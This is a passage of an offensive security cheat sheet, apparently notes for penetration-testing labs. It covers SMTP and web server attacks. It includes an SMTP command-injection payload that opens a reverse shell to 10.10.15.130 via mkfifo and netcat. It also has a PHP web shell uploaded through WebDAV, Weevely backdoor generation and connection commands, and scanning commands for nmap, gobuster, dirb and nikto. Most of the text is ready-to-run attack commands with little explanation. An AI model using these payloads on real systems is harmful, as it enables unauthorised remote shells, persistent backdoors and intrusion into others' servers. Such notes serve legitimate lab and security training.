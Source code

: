 		- SMTP
			- `VRFY root`
			- `VRFY idontexist`
			- `EHLO someone@mydomain`
			- `MAIL FROM: <'@mydomain>`
			- `DATA`
			- `FROM: someone@mydomain`
			- `' rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.130 1234 >/tmp/f .`
			- `quit`

### Web Server
- Scanning Web Server
  - Nmap
	  - `nmap -sT -p- -A -vv -n -Pn -oN $FILE_NAME.txt -oX $FILE_NAME.xml $IP`
- Manual HTTP Requests
  - NC
    - `nc $IP 80`
    - `GET / HTTP/1.1`
      - `host: foo`
    - `HEAD / HTTP/1.1`
      - `host: foo`
    - `OPTIONS / HTTP/1.1`
      - `host: foo`
- Web Server Hacking Tools
	- Command-line web tools
		- CURL
		- WGET
	- Content Discovery
		- Gobuster
			- `gobuster dir --wordlist=$WORDLIST -l -t 30 -e -k -x ".html,.asp,.php" -u http://$IP:$PORT -p http://127.0.0.1:8080 -a "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" -o Output_Gobuster.txt`
			- `gobuster dir --wordlist=$WORDLIST -l -u http://$IP:$PORT -p http://127.0.0.1:8080 -a "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" -o Output_Gobuster.txt`
		 - Dirb
		 	- `dirb $URL -r -z 10`
	- Web Vulnerability CGI Scanning Tools
		- Nikto
			- `nikto -host http://$IP:$PORT -Format htm -output Output_Nikto.html`
	- Web Extension Tools
		- Cadaver for WebDav
			- `cadaver $IP`
			- `<?php system($_GET[cmd]); ?>`
			- `dav:/> put /test.php`
			- `http://$IP:$PORT/test.php?cmd=id`
	- Server-side Scripted Backdoor Tools
		- Weevely
			- `weevely generate $PASSWORD backdoor.php`
			- `weevely http://$IP:$PORT/backdoor.php $PASSWORD`
		- ASP.NET Shell
	- Tunneling
		- Proxychains
	- General Purpose
		- Nmap
			- `nmap -p 80 -vv -n --script=http-enum $IP`
		- Netcat
		- Metasploit
		- Searchsploit
	- Convert XML to HTML
		- XSLTProc
			- `xsltproc $FILE_NAME.xml > $FILE_NAME.html`
- Softwares & Common Vulnerabilities and Exposures
	- Webmin